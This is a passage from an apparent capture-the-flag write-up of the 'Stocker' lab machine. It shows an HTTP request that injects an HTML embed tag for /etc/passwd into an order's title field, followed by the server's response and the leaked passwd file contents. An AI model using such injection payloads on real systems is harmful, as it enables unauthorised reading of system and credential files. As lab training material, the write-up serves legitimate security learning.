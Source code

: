 5) To exploit this Local FIle Inclusion, I must the Request in this way:

-->Request:
```http
POST /api/order HTTP/1.1
Host: dev.stocker.htb
Content-Length: 232
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://dev.stocker.htb
Referer: http://dev.stocker.htb/stock
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3Au2leb_5c4zbpJeqwBLbYR3i5an29uEWb.nf31pq5DiaQzBDQ%2BV1YuCWA48u79ovUcpIpdhEvDIpY
Connection: close



{"basket":[{"_id":"638f116eeb060210cbd83a8d",
            "title":
             "<embed src=/etc/passwd width=600px  height=600px </embed>",
            "description":"It's a red cup.",
            "image":"red-cup.jpg","price":32,
            "currentStock":4,"__v":0,
            "amount":1
            }
         ]
 }
```

-->Response:
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 11 Feb 2023 18:28:39 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 53
Connection: close
X-Powered-By: Express
ETag: W/"35-tcAviTPIULhijIapQujxHJ75C4M"



{"success":true,"orderId":"63e7de575c5803fd80542cc2"}
```


6) I use the Id "63e7de575c5803fd80542cc2", thereby I surface in this directory  "http://dev.stocker.htb/api/po/63e7de575c5803fd80542cc2" and I find file /etc/passwd

-->Output:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```
